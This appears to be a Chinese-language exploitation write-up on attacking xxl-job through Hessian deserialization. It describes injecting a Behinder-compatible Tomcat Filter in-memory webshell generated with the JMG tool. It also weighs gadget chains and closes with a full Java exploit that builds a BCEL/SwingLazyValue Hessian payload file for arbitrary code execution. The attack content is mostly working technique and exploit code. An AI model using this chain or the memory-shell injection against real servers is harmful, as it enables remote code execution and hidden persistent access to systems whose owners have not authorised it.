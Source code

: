<br/>  

<br/> 这里不用vps发包是因为我vps被ban了- -<br/> 可以看到是触发了lookup的，但是不出网，那怎么办呢？办法就只有一个了，那就是手打内存马

## 三、转

那我们就需要对源码进行分析，首先先去官网把漏洞版本的xxl-job下载下来看一下。

整体是基于springboot服务的，所以打内存马的话，我们只需要挑选一个Tomcat的Filter内存马即可，这里有2个问题

这是因为Springboot的interceptor本质上就是Filter，但是从优先级来看Filter是更高的，而在xxl-job实际上是有几个默认的interceptor的，所以优先级不够。

鉴于上面说的默认interceptor，xxl-job内置有登录鉴权的interceptor，所以注入controller型的内存马，会因为优先级的问题而失效<br/> 那么我们最终就选择使用JMG工具生成一个冰蝎的Tomcat Filter内存马，JMG这款工具生成的内存马兼容性很强，比较推荐使用<br/>[GitHub - pen4uin/java-memshell-generator-release: 一款支持高度自定义的 Java 内存马生成工具](https://github.com/pen4uin/java-memshell-generator-release)

<br/> 这样我们就得到了内存马的base64字节码了。我们怎么进行测试呢，github有maven项目源码，我们在help路由处对这个字节码进行加载。

<br/> 咱们访问一下help路由<br/>  

<br/> 访问两次出现这个就是注入成功了，因为打2次第二次会显示已存在，我们冰蝎连接试一下。

<br/> 显然我们是注入成功了。

## 四、再转

那么我们的问题就来到了Gadgets上面，假如对nacos的raft反序列化熟悉的小伙伴应该不会缺链子，这里一开始是有很多种思路的

### 1、Jackson

首先说到jackson，在AliyunCTF上爆出来的gadgets让绝大多数springframework都受到影响，因为他们都有Jackson依赖，可以打getter。但是在这个环境下版本过高，jackson无法利用

<br/> 版本达到了2.8，在这个版本，BaseJsonNode可以触发getter的toString方法被移除了

<br/> 因此无法继续利用

### 2、BCEL

在TCTF2022中出现了一个叫做Hessian-Onlyjdk的题，这个题的影响程度很高，不仅仅是在CTF更是在Realworld，他提供了一种JDK8原生的hessian gadgets，利用SwingLazyValue可以触发任意类的静态方法。<br/> EXP

```
public class HessianSwingLVBCEL {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String bcelStr = SerializeUtils.makeBcelStr(BcelRCE.class);
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{bcelStr,"s"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        SerializeUtils.HessianDeserial(SerializeUtils.HessianTostringSerial(pkcs9Attributes));
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}


```

